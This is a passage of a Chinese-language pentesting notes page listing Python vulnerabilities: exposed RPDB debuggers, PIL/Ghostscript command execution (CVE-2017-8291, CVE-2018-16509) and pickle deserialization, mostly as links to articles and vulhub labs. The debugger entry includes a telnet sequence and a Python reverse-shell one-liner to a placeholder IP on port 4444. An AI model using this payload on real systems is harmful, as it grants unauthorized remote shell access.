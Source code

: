 - 相关文章
    - [浅析常见Debug调试器的安全隐患](https://security.tencent.com/index.php/blog/msg/137)
    - [Python调试之RPDB工具](https://blog.woodcoding.com/python/2019/02/21/python-debug-tools-rpdb/)

- POC | Payload | exp
    ```
    telnet xxx.xxx.xxx.xxx 4444
    1
    w
    !1+1
    !import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
    ```

**Python PIL 远程命令执行漏洞(GhostButt)**
- 简介

    Python 中处理图片的模块 PIL（Pillow），因为其内部调用了 GhostScript 而受到 GhostButt 漏洞（CVE-2017-8291）的影响，造成远程命令执行漏洞。

- 相关文章
    - [Exploiting Python PIL Module Command Execution Vulnerability](http://blog.neargle.com/2017/09/28/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability/)
    - [GhostButt - CVE-2017-8291利用分析](https://paper.seebug.org/310/)

- POC | Payload | exp
    - [Python PIL 远程命令执行漏洞（GhostButt）](https://vulhub.org/#/environments/python/PIL-CVE-2017-8291/) - (未复现成功)
    - [vulhub/python/PIL-CVE-2017-8291/poc.png](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2017-8291/poc.png)

**Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509**
- 简介

     Google Project Zero 的 Tavis Ormandy 在 Ghostscript 中发现了一堆漏洞,其中一个是 CVE-2018-16509，这个漏洞允许利用 v9.24 之前的 Ghostscript 中的 -dSAFER 旁路，通过处理 PostScript 中失败的还原（grestore）来禁用 LockSafetyParams 并避免无效访问，从而执行任意命令。此漏洞可通过库，如 ImageMagick 或带有 Ghotscript 包装器的编程语言中的图像库（本例中的 PIL/Pillow）实现。

- POC | Payload | exp
    - [Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509](https://vulhub.org/#/environments/python/PIL-CVE-2018-16509/) - (未复现成功)

**Python unpickle 造成任意命令执行漏洞**
- 相关文章
    - [Django 远程命令执行漏洞详解](http://rickgray.me/2015/09/12/django-command-execution-analysis/)
    - [掌阅iReader某站Python漏洞挖掘](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)

- POC | Payload | exp
    - [Python unpickle 造成任意命令执行漏洞](https://vulhub.org/#/environments/python/unpickle/)

---

## ruby

> fofa : app="Ruby"
